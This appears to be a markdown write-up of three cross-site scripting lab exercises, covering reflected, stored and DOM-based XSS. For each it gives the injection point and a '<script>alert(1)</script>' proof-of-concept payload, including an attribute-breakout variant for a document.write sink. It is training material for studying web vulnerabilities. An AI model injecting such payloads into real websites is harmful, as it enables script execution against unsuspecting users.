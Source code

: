 # 2. Cross-site scripting
## Lab: Reflected XSS into HTML context with nothing encoded
### Exploit
We can pass the following payload to the search input to execute a reflected XSS attack `<script>alert(1)</script>`
The executed HTML will look like this:
```html
<div class="alert alert-warning">No products found</div>
<script>alert(1)</script>
```

<p align="center">
  <img src="/captures/02.01.png"><br/>
</p>

## Lab: Stored XSS into HTML context with nothing encoded
### Exploit
We can pass the following payload to the feedback input to execute a stored XSS attack `<script>alert(1)</script>`
The executed HTML will look like this:
```html
<div class="alert alert-success">Feedback submitted</div>
<script>alert(1)</script>
```
And the stored XSS will be executed when the feedback is viewed.

## Lab: DOM XSS in document.write sink using source location.search
### Vulnerability
The application uses the `document.write` method to output the value of the `q` parameter in the URL. This is a DOM-based XSS vulnerability: 
`document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');`
### Exploit
We can insert `"><script>alert(1)</script>` into the `q` parameter to execute a DOM-based XSS attack.
